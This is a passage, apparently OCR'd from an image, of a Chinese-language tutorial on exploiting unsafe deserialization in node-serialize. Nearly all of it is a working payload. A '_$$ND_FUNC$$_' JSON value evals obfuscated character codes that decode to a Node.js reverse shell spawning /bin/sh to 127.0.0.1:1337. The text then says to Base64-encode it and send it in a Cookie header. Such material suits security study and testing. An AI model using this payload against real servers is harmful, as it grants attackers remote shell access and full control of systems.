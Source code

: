 ```
2,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,
46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,
101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,
40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,3
2,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))
```

现在让我们生成序列化的有效内容，并在函数体后添加括号()。



```
{"rce":"_$$ND_FUNC$$_function (){
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101
,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,1
12,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,1
08,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,1
0,72,79,83,84,61,34,49,50,55,46,48,46,48,46,49,34,59,10,80,79,82,84,61,3
4,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,1
05,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112
,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,
61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,
116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,
110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105
,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,1
10,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,
125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82
,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,6
1,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,3
2,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,7
9,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,3
2,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,11
2,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,
32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,
67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32
,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,
116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,10
0,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,3
2,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,1
12,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,
104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111
,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32
,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,
115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,3
2,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,
105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117
,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,11
5,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,
84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,
10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}
```

我们需要执行相同的Base64编码，然后使用Cookie头中的编码Payload向Web服务器发出请求。
